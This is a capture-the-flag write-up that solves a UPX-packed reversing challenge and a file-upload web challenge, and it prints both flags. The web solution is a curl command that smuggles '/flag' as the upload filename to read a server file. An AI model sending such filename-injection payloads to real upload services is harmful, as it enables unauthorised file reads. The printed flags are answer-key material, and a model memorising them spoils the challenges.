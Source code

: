 # what's UP, X! 200
#### something funny about the question title..

### File - [upx](https://github.com/gamer-1478/unreal-ctf/blob/main/upx)

decoding it with upx was really challenging for a while. I had to go to a windows system and download the latest release for windows. 

using ``upx -d upx`` on the file we get a binary of upx

![image](https://github.com/gamer-1478/unreal-ctf/assets/74775129/6669533e-e0a0-41d4-94f2-aa202d908466)

opening the binary in gidhra

![image](https://github.com/gamer-1478/unreal-ctf/assets/74775129/81ff5646-27ec-41b2-b9d8-e810f89c43b1)

we see that the fav number is clearly in text given as 6942

entering it to the binary we get the flag. 

```
flag - unreal{haha_funny_number}
```

# sec-web 250
#### yes another one, go http://195.154.231.70:5341

[sec-web.zip](https://github.com/gamer-1478/unreal-ctf/blob/main/sec.zip)

found a writeup for this challenge - https://iwanflagz.github.io/RaRCTF-2021-writeups/web/secureuploader.html

following it, my sol was

```bash
curl -v -L -F "file=@shop;filename=/flag" http://195.154.231.70:5341/upload
```
shop can be changed for any file avaiable on your desktop. 

which gives the flag 
``` 
Flag - unreal{m07h3rfuck1n6_j01n}
``` 